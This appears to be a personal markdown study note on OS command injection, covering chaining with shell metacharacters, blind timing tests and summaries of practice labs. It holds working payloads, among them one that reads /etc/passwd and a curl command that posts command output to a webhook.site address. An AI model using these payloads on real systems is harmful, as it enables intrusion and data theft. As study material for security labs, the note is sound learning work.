


<h1>What is it</h1>

Injecting system commands into input in ways not allowed to like bypassing blacklists or chaining commands.
In Command Injection, the attacker extends the default functionality of the application, which execute system commands, without the necessity of injecting code.
Eg: If there is an input for ping tester with input box try doing ```IP && cat /etc/passwd``` if already identified that underlying is Linux.


Now this can show output or not. Depending on that have to try differen payloads to see if it is executing but just not showing output.

<h1>Baby steps</h1>

Identify user controlled input fields and try to get a mental map of how the application functions. 

If output displayed:
Try chaining commmands using shell meta characters.

if going in blind methods you can look into are:
Using ``` <safe_input> && sleep 10 & ``` (Only for linux) command or ```<safe_input> && ping -c 10 127.0.0.1 & ```(Inter OS, eg is for linux) and see if output adheres to the time delay.
If it does you can then try to use other methods to exfiltrate more data like try to run `whoami`(not preffered way as chaining difficult) or $(whoami) and rediect the output.
Placing the additional command separator & after the injected command is useful because it separates the injected command from whatever follows the injection point. 
This reduces the chance that what follows will prevent the injected command from executing. 

Note:(Only For Linux)

When you add an ampersand (&) at the end of the command like ```ping 127.0.0.1 &```, 
it means you are running the command in the background. This allows you to continue using the terminal for other commands while ping is still running.



https://www.makeuseof.com/what-are-linux-metacharacters/
https://www.bogotobogo.com/Linux/linux_shell_programming_tutorial7_metacharacters_quotes.php
https://github.com/payloadbox/command-injection-payload-list


<h1>Lab1 Simple Case</h1>
Directly executed using eval and the entire raw output is displayed back.
Can just chain commmand we want to run using shell meta characters and end with '#'(for BASH) to prevent 
interference with remaining part of the script running the commands. With this we can run anything as we can get path names,file names anything as output displayed.


<h1>Lab2 Simple Blind</h1>
Just used sleep on different parameters you control to check which one delays response and that is then confirmed to be vulnerable.


<h1>Lab3&4&5 Blind Redirection</h1>
If need output of a command and its blind injection:

1. Find vulnerable parameter

2. a) Try to find a writeable place where you can create a file and can also access that file using some other request.

2. b) Perform the injection and redirect output using '>'(Will create file or overwrite if already exists) or '>>'(Will create file or append to if already exists).
   
3. If cannot write use webhook.site . Ways to do : https://medium.com/@excybex/this-blog-explores-the-potential-misuse-of-webhook-site-89baecd7704b.
   
Eg: ```dir=$(ls); curl -s -X POST https://webhook.site/f3082654-6152-471b-b960-48dfd6fce02f --data-raw $dir```



<h2>Scripting Note:</h2>
Try to output useful error messages if script fails for some reason.
Check for auth tokens and get them before sending actual request.
Can set proxy to BURP interceptor ~~so that can record the responses and know if it worked or not~~ or just print the response.text in the script.
